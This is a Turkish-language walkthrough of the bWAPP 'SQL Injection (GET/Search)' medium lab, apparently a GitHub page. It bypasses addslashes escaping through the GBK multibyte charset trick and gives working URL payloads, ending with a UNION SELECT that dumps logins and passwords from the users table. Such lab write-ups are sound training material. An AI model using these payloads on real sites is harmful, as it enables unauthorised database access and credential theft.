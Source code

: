 ## bWAAP SQL Injection (GET/Search) Level Medium
Movies kısmına `'` karakteri koyuyoruz ve hata alamadığımız görüyoruz.

![](/images/first.PNG)

Bundan anlıyoruz ki `'` işaretini escapliyor. SQL sorgumuzun oluştuğu son hal ise aşağıdaki gibi olmaktadır;
```SQL
SELECT * FROM movies WHERE mname LIKE '%\'%'
```
Burada PHP tarafinda addslashes fonksiyonunun kullanıldığını görebiliriz challenge da bu fonksiyonu baypaslayabilmek için mysql char setimizin `character-set-server=GBK` şeklinde olması gereklidir.

###### MYSQL CHARSET AYARI

XAMPP yönetim panelinden my.ini konfigürasyon dosyasını açalım ve character-set-server’ı `character-set-server=GBK` olarak değiştirelim.

![](/images/sqlconf1.png)

![](/images/sqlconf2.png)

###### Addslashes

[Ömer Çıtak](https://omercitak.com/):
>Hex karşılığı 0xbf5c olan “¿\” karakteri, utf 8 charsetinde 2 karakter, GBK charsetinde 1 karakter olarak algılanıyor. İnjection saldırısında sorguya tek tırnak, yani 0x27 gönderdiğiniz vakit mysql_real_escape_string veya addslashes fonksiyonlarımız bizim tırnağımızı “\’” haline çeviriyor. Tırnaktan önce “¿” (0xbf) karakterini gönderdiğimizde yani “¿’” (0xbf27) karakterini gönderdiğimizde, tırnaktan önce \ eklendiğinden gönderdiğimiz karakter “¿\’” (0xbf5c27) halini alıyor. GBK charseti “¿\” karakterini tek karakter olarak aldıladığından sondaki tırnağımız boşa çıkıyor, böylece sorgunun gidişatını değiştirmiş oluyorsunuz. Sonrasında injection ile sorguyu istediğimiz şekle sokabiliriz.

###### bWAAP SQL Injection (GET/Search)

Uygulamamızda rastgele birşeyler aratalım ve url in title kısmını `title=%bf%27` olarak değiştirlerim.

![](/images/error.jpeg)

Tek tırnak işaretimiz fazla olduğu için SQL hatası aldık.Url in title kısmını `title=%bf%27or1=1--+` değiştirirsek artık hata almadığımızı ve iki koşuldan birisi doğru olduğu için tüm filmleri görmüş oluyoruz.

![](/images/or1=1.jpeg)

Tablonun kolon sayısını öğrenmek için `title=%bf%27GROUP BY (değer)--+` değer kısmını uygulama hata verene kadar bir bir arttıralım ve hata verdikten bir önceki sayımız  kolon sayımızdır.
Kolon sayımızı bulduğumuza göre UNION sorgumuzu çalıştırabiliriz.Tablo isimlerini bulmak için information_schema tablosunu kullanıyoruz. `title=%bf%27%20UNION%20SELECT%20NULL,table_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.tables--+`

![](/images/tables.jpeg)

Sırada column ismini bulamız gerekli ama bunu maalesef ki başaramıyoruz çünkü tırnak karakterini escaplemek için `%bf`kullanmamız gerekli ve bu karakter tablo ismimizin içine giriyor ve tablo ismimizi bozuyor.

Örnek:table_name='' olarak string içine yazmamız gerek tablo ismi aşağıdaki gibi tablo ismimizin sonuna %bf karakteri geliyor.
**`title=%bf%27%20UNION%20SELECT%20NULL,column_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.columns WHERE `_table_name=%bf%27tablename%bf%27--+**

Users isminde tablo bulduğumuz için klonları tahmin edebiliriz.Title ımızı değiştirerek kullanıcı adı ve parolayı çekiyoruz. 
`title=%bf%27%20UNION%20SELECT%20NULL,login,password,NULL,NULL,NULL,NULL%20FROM%20users--+`

![](/images/users.jpeg)

###### Kaynak

https://omercitak.com/injection-saldirilarinda-mysql_real_escape_string-ve-addslashes-bypass/

https://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string
